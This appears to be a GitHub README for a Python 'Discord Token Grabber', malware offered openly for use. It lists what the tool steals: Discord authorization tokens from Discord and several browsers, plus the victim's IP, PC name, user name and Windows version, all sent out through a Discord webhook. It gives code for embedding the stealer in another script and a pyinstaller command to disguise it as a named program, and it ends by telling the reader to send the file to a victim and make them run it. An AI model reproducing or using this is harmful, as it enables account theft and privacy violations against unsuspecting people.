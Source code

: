 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber only supports **Windows**.

# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example")


# How to use
 1. Create a webhook on your Discord server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token_stealer.py](token_stealer.py)
<br>
 2.5. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.main()
```
2.75. Compile the script using pyinstaller
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- added embed support
- added getPremiumType() function
```
